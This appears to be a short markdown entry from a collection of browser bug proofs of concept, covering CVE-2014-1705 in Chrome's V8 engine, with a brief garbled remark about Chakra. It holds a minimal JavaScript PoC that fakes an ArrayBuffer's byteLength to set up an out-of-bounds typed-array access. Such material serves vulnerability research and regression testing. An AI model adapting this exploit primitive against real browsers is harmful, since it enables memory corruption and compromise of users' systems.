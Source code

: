 checked this in chakra changing length dont affect getting lentgh in middle of function dont go throth getter

# CVE-2014-1705

- Date: Mar 2014
- Credit: geohot

## PoC

```javascript
var ab = new ArrayBuffer(8);
ab.__defineGetter__("byteLength", function() { return 0xFFFFFFFC; });
var aaa = new Uint32Array(ab);
// aaa[0x1234567] = 1;
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=351787)
